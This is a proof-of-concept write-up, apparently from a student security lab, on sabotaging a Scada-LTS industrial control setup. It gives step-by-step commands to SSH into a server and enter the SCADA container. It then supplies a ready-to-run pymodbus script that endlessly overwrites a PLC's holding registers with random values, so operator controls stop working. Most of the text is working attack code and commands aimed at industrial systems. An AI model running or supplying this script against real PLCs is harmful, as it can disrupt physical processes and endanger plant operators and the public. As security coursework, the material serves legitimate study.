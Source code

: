 # Change modbus registers Proof of concept vulnerability

If the ScadaLTS enviroment has been exploited and access has been granted over the system to the malicious entity, then the following steps can be taken to perform a modbus change exploit.

Step 1: Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Step 2: Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Step 3: Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

step 4: Run the code. There is no `nano` or `vim` but we can still write to a file with `echo 'some code' > test.py`
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

#End result
The registers should now start being overwritten with random data. This in turn makes it so that the modbus addresses cannot be used properly since they will keep changing from value even if the operator for example wants to change them by turning on a button. 

![](img/random_modbus.png)

Figure 1: Modbus registers changing address non stop.

![](img/scada_poc1.jpg)

Figure 2: Scada enviroment visibily showing values that are not inlign with its use case.

![](img/scada_poc2.jpg)

Figure 3: In scada the values are now also seen to be changing in the dataresources tab.

